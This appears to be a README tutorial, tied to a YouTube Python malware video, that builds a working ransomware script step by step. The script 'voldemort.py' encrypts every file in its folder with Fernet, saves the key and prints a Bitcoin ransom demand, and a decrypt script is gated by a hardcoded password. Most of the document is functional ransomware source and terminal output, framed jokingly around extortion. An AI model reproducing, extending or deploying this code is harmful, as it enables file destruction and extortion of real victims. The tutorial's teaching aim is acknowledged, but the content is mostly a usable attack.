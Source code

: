 # Ransomware

This is an example application featured in NetworkChuck's <a href="https://youtu.be/UtMMjXOlRQc">Python Malware Tutorial</a>.

### Instructions

**Step 1:**
Make a folder called ``ransomware`` and create a few random ``.txt`` files with some silly phrases in them:

<pre>
<code>$ mkdir ransomware
$ cd ransomware
$ echo "This is a file" > file.txt
$ echo "Leave me alone" > file2.txt
$ echo "Another one" > hey.txt
$ echo "One more time" > pleasedonthurtme.txt</code>
</pre>

Now let's hold these files for ransom! Let's encrypt those suckers right now! Here we go:

<pre>
<code>$ nano voldemort.py</code>
</pre>

Write this code in the following ``voldemort.py`` file:

<details>
<summary>💰 How to Hold These Files for Ransom:</summary>

```python
#!/usr/bin/env python3
import os

# Let's find some files!
files = []

for file in os.listdir():
    if file == "voldemort.py":
        continue
    if os.path.isfile(file):
        files.append(file)

print(files)

```
</details>

When you first run ``voldemort.py`` in your terminal, you should see the following output:

<pre>
<code>$ python voldemort.py
['file2.txt', 'file.txt', 'hey.txt', 'pleasedonthurtme.txt']</code>
</pre>

**Step 2:**
Now let's encrypt those files! Start it off by running the following command:

<pre>
<code>$ nano voldemort.py</code>
</pre>

Add more code to ``voldemort.py``:

<details>
<summary>🔒 How to Encrypt These Files:</summary>

```python
#!/usr/bin/env python3
import os
from cryptography.fernet import Fernet

# Let's find some files!
files = []

for file in os.listdir():
    if file == "voldemort.py":
        continue
    if os.path.isfile(file):
        files.append(file)

print(files)

key = Fernet.generate_key()

print(key)

```
</details>

When you next run ``voldemort.py``, you should see the following output for your key:

<pre>
<code>$ python voldemort.py
['file2.txt', 'file.txt', 'hey.txt', 'pleasedonthurtme.txt']
b'8QVEe4MBoSLINxTpyOExsqrL5XiOks5g1_w-xF-OAmk='</code>
</pre>

**Step 3:**
Obviously, we don't want to print our key right out there in the open where the user can see it. We want the user to give us money, but we do need to save the key into another file for safety so we can unlock the files later *after* we get paid 😉:

<pre>
<code>$ nano voldemort.py</code>
</pre>

Add more code to ``voldemort.py``:

<details>
<summary>🔑 How to Save the Key:</summary>

```python
#!/usr/bin/env python3
import os
from cryptography.fernet import Fernet

# Let's find some files!
files = []

for file in os.listdir():
    if file == "voldemort.py":
        continue
    if os.path.isfile(file):
        files.append(file)

print(files)

key = Fernet.generate_key()

with open("thekey.key", "wb") as thekey:
    thekey.write(key)

```
</details>

Run ``voldemort.py`` and you should see the following output:

<pre>
<code>$ python voldemort.py
['file2.txt', 'file.txt', 'hey.txt', 'pleasedonthurtme.txt']</code>
</pre>

Wait, where is ``thekey.key``? Don't worry! It is still hidden and we can finally view it by entering the following commands:

<pre>
<code>$ ls
file.txt             hey.txt              thekey.key
file2.txt            pleasedonthurtme.txt voldemort.py
$ cat thekey.key
se_by38p9NVVsWezjKWbKgdztEl1GhHZsbMwcGqei84=%</code>
</pre>

**Step 4:**
Now this is where things start to get interesting. We will be pushing our ``thekey.key`` file into the code for our ``voldemort.py`` file so that all the other files will be encrypted. In other words, the poor user can now only see those files as gibberish:

<pre>
<code>$ nano voldemort.py</code>
</pre>

Add the following code to ``voldemort.py``:

<details>
<summary>👁️👄👁️ How to Make These Files Come Out as Garble:</summary>

```python
#!/usr/bin/env python3
import os
from cryptography.fernet import Fernet

# Let's find some files!
files = []

for file in os.listdir():
    if file == "voldemort.py" or file == "thekey.key":
        continue
    if os.path.isfile(file):
        files.append(file)

print(files)

key = Fernet.generate_key()

with open("thekey.key", "wb") as thekey:
    thekey.write(key)

for file in files:
    with open(file, "rb") as thefile:
        contents = thefile.read()
    contents_encrypted = Fernet(key).encrypt(contents)
    with open(file, "wb") as thefile:
        thefile.write(contents_encrypted)

print(
    "UH OH!! All of your files have been encrypted! Send me 100 Bitcoin "
    "or they will be gone in 24 hours FOREVER!!! ☠️☠️☠️☠️☠️☠️☠️☠️☠️☠️"
)

```
</details>

Make one quick goodbye to each ``.txt`` file before they get encrypted by your mom:

<pre>
<code>$ cat file.txt
This is a file
$ cat file2.txt
Leave me alone
$ cat hey.txt
Another one
$ cat pleasedonthurtme.txt
One more time</code>
</pre>

Run ``voldemort.py`` and you should see the following output:

<pre>
<code>$ python voldemort.py
['file2.txt', 'file.txt', 'hey.txt', 'pleasedonthurtme.txt']
UH OH!! All of your files have been encrypted! Send me 100 Bitcoin or they will be gone in 24 hours FOREVER!!! ☠️☠️☠️☠️☠️☠️☠️☠️☠️☠️</code>
</pre>

This is the moment we've all been waiting for. Now all these ``.txt`` files have been left in ruins 😈:

<pre>
<code>$ cat file.txt
gAAAAABo-Awg21o-xvSxpDgNGSmIIp7-dnngyWuPg7LrHrk3natLfkXeQ6tmOUmFEEjF7Y2RiGlSA4qUAzCUuENsnPWvMN9M_A==%
$ cat file2.txt
gAAAAABo-Awg7t0A_gnTwpl0wWT8wQ5n_H_8bMYAUkNSaF3matNYFsdLnL5Va1oHzkPf1er3fPCKdENvHEdgdfbz_ezx6MiHcg==%
$ cat hey.txt
gAAAAABo-AwgVjmPsRVbL8dOGVu3vb6irWteZ-hFoJmatlHmUo7OzaKfLYS8sWJJcbEOG8YZWkhopMEjDenfYsDGxUti3BJVVw==%
$ cat pleasedonthurtme.txt
gAAAAABo-AwgPUfd7gp184nZvENjB9NhHBiXUZkbrUV4FKnBJZbCQg1fDEll2U42eUYLCBE0LOavmW7fnLFB5Rt8btzK5LspBw==%</code>
</pre>

Fortunately for us hackers, we have a new ``thekey.key`` and that is the key to unlocking these files:

<pre>
<code>$ cat thekey.key
SUxaxvZHjB7l5wgJJJFrHyWHr0D3WBA8CdYWYHVnrIc=%</code>
</pre>

**Step 5:**
Now we can unlock all these files once and for all by writing a ``decrypt.py`` file. Luckily, it is already very similar to the ``voldemort.py`` (AKA the *encrypt.py* file):

<pre>
<code>$ cp voldemort.py decrypt.py
$ nano decrypt.py</code>
</pre>

Add the following code to the ``decrypt.py`` file:

<details>
<summary>🔑 How to Decrypt the Files:</summary>

```python
#!/usr/bin/env python3
import os
from cryptography.fernet import Fernet

# Let's find some files!
files = []

for file in os.listdir():
    if file == "voldemort.py" or file == "thekey.key" or file == "decrypt.py":
        continue
    if os.path.isfile(file):
        files.append(file)

print(files)

with open("thekey.key", "rb") as key:
    secret_key = key.read()

for file in files:
    with open(file, "rb") as thefile:
        contents = thefile.read()
    contents_decrypted = Fernet(secret_key).decrypt(contents)
    with open(file, "wb") as thefile:
        thefile.write(contents_decrypted)

```
</details>

Run ``decrypt.py`` and you should see the following output:

<pre>
<code>$ python decrypt.py
['file2.txt', 'file.txt', 'hey.txt', 'pleasedonthurtme.txt']</code>
</pre>

Now you can see that all of the files have finally been decrypted!!!

<pre>
<code>$ cat file.txt
This is a file
$ cat file2.txt
Leave me alone
$ cat hey.txt
Another one
$ cat pleasedonthurtme.txt
One more time</code>
</pre>

**Step 6:**
Let's add a bit of fun to our ``decrypt.py`` file:

<pre>
<code>$ nano decrypt.py</code>
</pre>

Add the following code to the ``decrypt.py`` file:

<details>
<summary>🔑 How to Password-Lock the Encrypted Files:</summary>

```python
#!/usr/bin/env python3
import os
from cryptography.fernet import Fernet

# Let's find some files!
files = []

for file in os.listdir():
    if file == "voldemort.py" or file == "thekey.key" or file == "decrypt.py":
        continue
    if os.path.isfile(file):
        files.append(file)

print(files)

with open("thekey.key", "rb") as key:
    secret_key = key.read()

secret_phrase = "coffee"

user_phrase = input(
    "Enter the secret password to decrypt "
    "all of your files:\n ")

if user_phrase == secret_phrase:
    for file in files:
        with open(file, "rb") as thefile:
            contents = thefile.read()
        contents_decrypted = Fernet(secret_key).decrypt(contents)
        with open(file, "wb") as thefile:
            thefile.write(contents_decrypted)
        print(
            "Congratulations! All of your files have been decrypted. "
            "Enjoy your coffee ️❤ ☕ ❤"
        )
else:
    print(
        "Sorry not sorry, but you entered da wong secret password. "
        "Send me more Bitcoin! 🤑🤑🤑"
    )

```
</details>

Run ``voldemort.py`` *again* and you should see the following output:

<pre>
<code>$ python voldemort.py
['file2.txt', 'file.txt', 'hey.txt', 'pleasedonthurtme.txt']
UH OH!! All of your files have been encrypted! Send me 100 Bitcoin or they will be gone in 24 hours FOREVER!!! ☠️☠️☠️☠️☠️☠️☠️☠️☠️☠️</code>
</pre>

Then run ``decrypt.py`` *again* and you should see the following output:

<pre>
<code>$ python decrypt.py
['file2.txt', 'file.txt', 'hey.txt', 'pleasedonthurtme.txt']
Enter the secret password to decrypt all of your files:</code>
</pre>

If you enter the wrong password, you get the following message:

<pre>
<code>Sorry not sorry, but you entered da wong secret password. Send me more Bitcoin! 🤑🤑🤑</code>
</pre>

If you enter the correct password after finally paying me enough Bitcoin to avoid getting blackmailed, you receive the following message:

<pre>
<code>Congratulations! All of your files have been decrypted. Enjoy your coffee ️❤ ☕ ❤</code>
</pre>

Good job! You finally have all of your files back, good as new! You've finally made your dad proud. Enjoy it while it lasts, take care 😉
